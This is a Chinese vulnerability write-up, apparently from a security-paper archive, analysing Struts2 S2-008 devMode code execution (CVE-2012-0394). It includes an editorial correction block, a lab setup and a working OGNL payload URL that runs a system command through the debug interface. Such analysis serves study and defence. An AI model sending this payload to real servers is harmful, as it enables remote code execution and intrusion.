





# Struts2 S2-008 devMode 代码执行分析（CVE-2012-0394）

<!-- vulwiki-editorial:start -->
## 校订与适用边界

S2-008 是多问题公告：本文 devMode 方法对应 CVE-2012-0394；CVE-2012-0392 对应 CookieInterceptor。两者不能因同一公告而互换。

- 适用前提：devMode启用、debug command接口可达、OGNL类可用；声明2.1.0–2.3.1
- 证据范围：主体与248同源，仅devMode回显方法，Cookie/异常分支只是概述，不能借标题CVE绑定所有S2-008子问题。

### 已有来源支持的更正

- 四子问题分别列明；0392 Cookie映射同时由https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0392支持

### 本次正文校订

- 修正题名；原文件路径保持不变，以保留已有链接和资源定位。
- 修正 docker-compose 命令缺失空格。
- 按官方子问题关系修正题名和主标识；CVE-2012-0392 保留为历史误标引用。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 官方已确认：正文 devMode 对应 CVE-2012-0394；标题 CVE-2012-0392 对应 CookieInterceptor，不能将多漏洞公告子问题混为一项
- docker-compose up-d/docker-compose build粘连且缺空格，命令不可用
- URL含未编码#会成为浏览器fragment，需说明编码后发送
- 生产几乎不可能和鸡肋缺依据；debugMode拼写/术语不统一
- 缺禁用devMode直接缓解、修复版本及实际配置

### 核验来源

- https://cwiki.apache.org/confluence/spaces/WW/pages/27834715/S2-008
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0392支持

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/fWKwAW0JdeaTltSv_6aGMw)

  

> **文章来****源：**

**【Struts2 - 命令 - 代码执行漏洞分析系列】 S2-008** 

**漏洞概述**  
S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

  
**漏洞成因**

主要利用对传入参数没有严格限制，导致多个地方可以执行恶意代码。

  
第一种情况其实就是 S2-007，在异常处理时的 OGNL 执行 第二种的 cookie 的方式，虽然在 struts2 没有对恶意代码进行限制，但是 java 的 webserver（Tomcat），对 cookie 的名称有较多限制，在传入 struts2 之前就被处理，从而较为鸡肋 第三种需要开启 devModedebug 模式  
例如在 devMode 模式下直接添加参数 ?debug=command&expression= 会直接执行后面的 OGNL 表达式.

  
**影响版本：**

Struts 2.1.0 - Struts 2.3.1

  
**环境搭建：**  
docker-compose up -d/docker-compose build  
启动靶场。

  
    

靶场已经启动可以通过访问虚拟机 IP 进行访问

  
    

选择 devmode,jsp

  
    

命令执行：  

```
/devmode.action?debug=command&expression=(#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ls').getInputStream()))
```




推荐文章 ++++



*[【Struts2 - 命令 - 代码执行漏洞分析系列】 S2-001](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650496978&idx=3&sn=8e7b2b7caacf9bc393b2128989b69790&chksm=83ba3a36b4cdb3201dcdd5e50d2c6600d204f870601e8d63958588c0d6062d9648db7db7b9d9&scene=21#wechat_redirect)  

*[【Struts2 - 命令 - 代码执行漏洞分析系列】 S2-005](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650498316&idx=3&sn=0ae5551dafcef0e8926a580c834acb05&chksm=83ba00e8b4cd89feaae6e5aeb149fdde0f237231ef88506dbd070ac4aae1c013ad75510a7f17&scene=21#wechat_redirect)


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
